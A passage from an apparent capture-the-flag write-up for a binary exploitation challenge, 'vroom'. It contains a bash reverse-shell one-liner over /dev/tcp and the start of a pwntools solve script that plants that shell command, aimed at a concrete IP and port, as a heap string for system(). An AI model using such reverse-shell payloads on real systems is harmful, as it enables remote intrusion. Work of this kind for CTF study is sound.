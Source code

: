 I can confirm this address in gdb:

```text
pwndbg> x/s 0x7ffff7d93000
0x7ffff7d93000: "\177ELF\002\001\001\003"
```

We now have the libc address!

## Getting a shell

As mentioned before, we cannot just use `system("/bin/sh")` to get a shell. Instead I will now try to create a reverse shell. After fiddling around with the docker container, I found that the following reverse shell will work:

`bash -c "sh -i >& /dev/tcp/{IP address}/{port} 0>&1"`

But how do we execute this?

We want to run `system()` with our reverse shell as the first argument. To do this we will need to make `rdi` a pointer to an address that contains that text. We can easily fit this in the `0xff` bytes we have for our `car->name`. Now we just have to find the address of `car`. We can easily do this as well.

Here is my solve script:

```py
from pwn import *

HOST = "vroom.hkn"

context.terminal = ['tmux', 'splitw', '-h']

elf = ELF('./handout/vroom', checksec=False)
libc = ELF('./handout/libc.so.6', checksec=False)

context.arch = elf.arch

rop = ROP(elf)

def getremote(track: bytes | int):
    """Get a remote"""

    if isinstance(track, int):
        track = cyclic(track)

    size = len(track)

    io = remote(HOST, 13337)
    io.sendlineafter(b'>', str(size+1).encode())  # +1 for newline

    # Set name to the reverse shell
    io.sendlineafter(b'>', b'\x00'*8 +
                     b'bash -c "sh -i >& /dev/tcp/25.209.240.253/1338 0>&1"')

    io.sendlineafter(b'>', track)

    # The process has executed the beginning of the go_vroom_vroom() function
    # A single io.sendline(b'') will trigger the memcpy()


    return io


# -- Leak libc

log.info("Leaking libc")
```